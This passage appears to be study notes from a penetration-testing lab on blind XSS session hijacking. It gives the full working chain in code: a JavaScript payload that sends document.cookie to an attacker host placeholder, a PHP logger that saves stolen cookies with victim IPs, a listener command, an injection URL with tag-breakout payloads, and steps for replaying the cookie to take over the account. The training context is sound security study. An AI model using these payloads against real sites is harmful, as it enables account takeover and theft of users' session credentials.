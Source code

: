 As mentioned earlier, we get the cookie value right in the terminal, as we can see. However, since we prepared a PHP script, we also get the `cookies.txt` file with a clean log of cookies:
```
user@htb[/htb]$ cat cookies.txt 
Victim IP: 10.10.10.1 | Cookie: cookie=f904f93c949d19d870911bf8b05fe7b2
```
Finally, we can use this cookie on the `login.php` page to access the victim's account. To do so, once we navigate to `/hijacking/login.php`, we can click [Shift+F9] in Firefox to reveal the Storage bar in the Developer Tools. Then, we can click on the `+` button on the top right corner and add our cookie, where the Name is the part before `=` and the Value is the part after `=` from our stolen cookie.

Once we set our cookie, we can refresh the page and we will get access as the victim.

Summarizing, what we did:
1. make a `script.js` file inside `/tmp/tmpserver` folder with the content
```javascript
new Image().src='http://OUR_VM_IP:PORT/index.php?c='+document.cookie;
```
2. make a `index.php` file inside `/tmp/tmpserver` folder with the content
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
3. run HTTP server on our attacker machine (in `/tmp/tmpserver` directory) on 80 or 8080 port (if the former is busy): `sudo php -S 0.0.0.0:8080`
4. test which input forms are vulnerable by injecting the malicious code in the URL parameters. The completed URL with the injected code will be like (note: here I renamed `script.js` as `boogie`; note also the `">` at the beginning of each `<script>` tag for bypassing the front-end or back-end sanitization):
```
http://10.129.102.212/hijacking/?fullname="><script+src=http://OUR_VM_IP:8080/boogie></script>&username="><script+src=http://OUR_VM_IP:8080/boogie></script>&password=test&email=test@t.com&imgurl="><script+src=http://OUR_VM_IP:8080/boogie></script>
```
5. check on terminal of HTTP server if we get some response. If so, we found a XSS vulnerable input parameter. We should have also an output `cookies.txt` file with the stolen cookies. The malicious javascript code in `boogie` file will retrieve the victim cookie that we can add on the browser as explained on some lines above.

# XSS Prevention

## XSS Prevention
